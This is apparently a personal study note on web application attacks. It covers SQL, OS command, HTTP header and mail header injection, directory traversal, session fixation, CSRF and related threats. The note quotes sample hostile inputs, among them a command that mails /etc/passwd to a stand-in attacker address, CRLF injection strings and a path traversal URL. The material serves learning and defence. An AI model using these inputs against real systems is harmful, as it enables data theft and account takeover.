







# HTTP notes

### SQL Injection

This attack behavior may cause:

- Illegal look ups or changes on protected data.
- Escape from authorization
- Execute programs connected to database.

Eg: http://example.jp/search?q=abc

```mysql
SELECT * FROM bookTbl WHERE author='abc' and flag=1;
```

Change into: http://example.jp/search?q=abc'--

```MYSQL
SELECT * FROM bookTbl WHERE author='abc'--'and flag=1;
```

`flag=1` is commented!

### OS Injection

**OS Command Injection** uses Web applications to execute illegal OS commands. If there is any 

Eg:

```shell
my $adr = $q->param('mailaddress');
open(MAIL, "| /usr/sbin/sendmail $adr");
print MAIL "From: info@example.com\n"
```

`open` function will use `sendmail` to send an e-mail, the attributed mail address is the `$adr` value.

The hacker will use the following value as the e-mail address:

```shell
; cat/etc/passwd | mail hack@example.jp
```

The command will be:

```shell
| /usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp
```

The program will run `cat /etc/passwd | mail hack@example.jp`. The file which contains account info will be sent by e-mail to hack@example.jp.

### HTTP Header Injection

The hacker inserts an line break and then adds any response header or body to launch an attack. This belongs to passive attack.

Adding more data in the header body part is called the **HTTP Response Splitting Attack**.

Sometimes, the Web applications assign data received from outside to **Location** and **Set-Cookie** field in http headers.

```http
Location: http://www.example.com/a.cgi?q=12345
Set-Cookie: UID=12345
```

HTTP Response Splitting Attacks happen when the http header needs to handle output values (in this case: 12345). This can cause:

- Set any Cookie information
- Redirect to any URL
- Display any body

Eg:

In this case, users choose a category, the websites will jump to the pointed category. The web application set an ID for every categories. Once the category is selected, this will be inserted into http header like `Location:http://example.com/?cat=101`.

The hacker will use `101%0D%0ASet-Cookie:+SID=123456789`.`%0D%0A` represents the line break in HTTP datagram. After that, the hacker set the Set-Cookie field to SID=123456789 (session ID). Through **Session Fixation Attack(会话固定攻击)** , the hacker can be disguised as the user.

`%0D%0A` belongs to the Location field as the query part. After escaping, it becomes a line break. In this case, the hacker can insert any header field he wants.

### HTTP Response Splitting Attack(HTTP响应截断攻击)

In this method, hackers inject in 2 `%0D%0A`, which creates 2 empty lines to separate the header and the body. This enables the hacker to show the fake body.

```HTML
%0D%0A%0D%0A<HTML><HEAD><TITLE>info<!--
```

The response HTTP will be:

```
Set-Cookie: UID= (line break)
(line break)
<HTML><HEAD><TITLE>info<!--(original header)
```

Using this strategy, the browser will display the fake Web page. If this involves credential information, it will have the same function as the **XSS**.

Abusing the use of Multi-response return function in HTTP/1.1, this may cause a problem called **cache pollution**. Any browser that uses this server will continuously view the fake websites.

### Mail Header Injection

Hackers may also exploit the vulnerabilities in the mail function in a web application. Hackers launch attack through illegal injection to Mail header like **To** or **Subject**. By exploiting security vulnerabilities, hackers can send ads or viruses to any e-mail address.

Eg:



Fill in the user's e-mail address and the request. The app will then send these in an e-mail to the admin.

```
bob@hackr.jp%0D%0ABcc: user@example.com
```

`Bcc` means **Blind Carbon Copy**. This is not a function that the developer wishes to provide.

```
bob@hackr.jp%0D%0A%0D%0ATest Message
```

This can rewrite the text.

Using the same method, hackers can rewrite To or Subject or any other mail headers, or even add attachments.

### Directory Traversal Attack

Hacker can use this method to get files that are on the server but not published. Hackers use things like `./` and `../` to locate other files on the server. Thus, developers should ban the request for any file name.

Eg:

```
http://example.com/read.php?log=0401.log
```

```
http://example.com/read.php?log=../../etc/passwd
```



### Remote File Inclusion

This is mainly a problem with php.



## Security Breach Due to Design Flaws

### Forced Browsing

For some important files, the server usually hide their URLs for safety reasons. Once the hacker get the URLs, this could mean that they can see these files through URLs.



The backups don't have the execution authority. They may be displayed as source codes.



### Error Handling Vulnerability

Some error info may give hackers clues to launch another attack.


The errors raised by system come from mainly 3 parts:

- PHP or ASP(active server pages) scripts errors
- DB or Middle wares errors
- Web server errors.

Developers should avoid giving hints to hackers.

### Open Redirect

Hackers can use this method to redirect users to another web sites.

```
http://example.com/?redirect=http://www.hackr.jp
```

## Security Breach Caused by Negligent Session Management

Session management is used for keeping users logged on. If there is any problem, this may cause the user's authorization status stolen by hackers.

### Session Hijack

Hackers get the session ID of a user and then use this ID to pretend that he is the user. Session ID represents the Cookie info on the client and the server will link this ID with the authorization status.

- Guessing Session ID through illegal way.
- Tapping or XSS attacks to steal the Session ID.
- **Session Fixation**

Eg:

In this case, the Session ID of an authorized user will be saved into the Cookie of the user's browser.



#### Session Fixation

In this case, the hacker forces the user to use the Session ID given to him, which belongs to passive attack.



One tech called session adoption which can deal with unknown session IDs. 

> I cannot find anything related to this on google.

#### CSRF

**Cross-Site Request Forgeries** attack is a strategy to use authorized users updating data or some other things that requires authorization. This can cause:

- Updating data or settings by using administrators
- Buying products by authorized users
- Posting things on BBS or message boards.

A hacker may leave a malicious comment on the message board like this:

```html

```

When the authorized user visited the page, this html tag will be loaded immediately. And the user's email address will be changed to `pwned@evil-user.net`.


## Other Security Issues

### Password Cracking

This technique may also includes **FTP** and **SSH**.

There are 2 ways of cracking: 

- Guessing through the Internet.
- Decrypt the encrypted passwords stored in the server (this requires hacking into the system)

#### Guessing through the Internet

- Exhaustive method (**Brute-force Attack**). Try everything in the **Keyspace**.
- Dictionary attack

#### Decrypt

- Exhaustive method or Dictionary attack
- Rainbow table
- Get the secret key
- Exploit the encryption algorithm

### Clickjacking

This is also called **UI Redressing**. The principle is quite simple: use a transparent button!

> iframe has a function that can create a transparent layer

### DoS

**Denial of Service attack**'s' targets also include web devices and servers. There are mainly 2 methods:

- Sending requests in very high frequency that causes resources overload. When the server runs out of the resources, the service stops.
- Shut down service by exploiting security vulnerabilities.

**DDoS(Distributed Denial of Service)** often uses zombie computers.

### Backdoor

There are 3 types of backdoors:

- Backdoors at the developing stage. Used for debugging.
- Implemented by developers for their own advantage.
- Implemented by hackers.

